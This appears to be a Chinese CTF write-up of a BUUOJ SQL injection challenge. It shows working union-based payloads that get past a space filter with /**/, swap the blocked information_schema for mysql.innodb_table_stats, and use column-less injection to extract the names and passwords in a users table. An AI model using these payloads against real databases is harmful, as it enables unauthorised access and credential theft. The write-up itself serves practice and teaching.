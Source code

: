打了 `1’` 出现sql报错

![](https://img-blog.csdnimg.cn/20210616165143691.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

1' union select 1,2,'3
发现空格全部消失，/**/代替

![](https://img-blog.csdnimg.cn/20210616165215200.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
数据库为`web1`，`过滤了information_schema`

bypass information_schema是利用的`sys.schema_auto_increment_columns` 库来进行查询

buuoj的平台没有 sys.schema_auto_increment_columns 这个库，而且一般要超级管理员才可以访问sys

所以一般还可以用这个方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021061616550155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
当过滤了information_schema时，可以用`mysql.innodb_table_stats`代替

payload:
```
'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```
得到库名:

![](https://img-blog.csdnimg.cn/20210616165729854.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
知道表名了，不知道列名怎么办

无列名注入：

注意，在无列名注入的时候 一定要和表的列数相同 不然会报错 慢慢试。。最后发现users里有三列，猜测对应 id name passwd

payload:(去掉了/**/)
```
' union select 1,(select group_concat(a) from (select 1,2 as a,3 as b union select * from users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```
末尾的 a 是用来命名的，也可以是其他字符。

![](https://img-blog.csdnimg.cn/20210616170000291.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

那么对应的查passwd那一列：
```
' union select 1,(select group_concat(b) from (select 1,2 as a,3 as b union select * from users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```

![](https://img-blog.csdnimg.cn/20210616170119724.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# [MRCTF2020]PYWebsite
![](https://img-blog.csdnimg.cn/2021061617020253.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
去/flag.php看一看
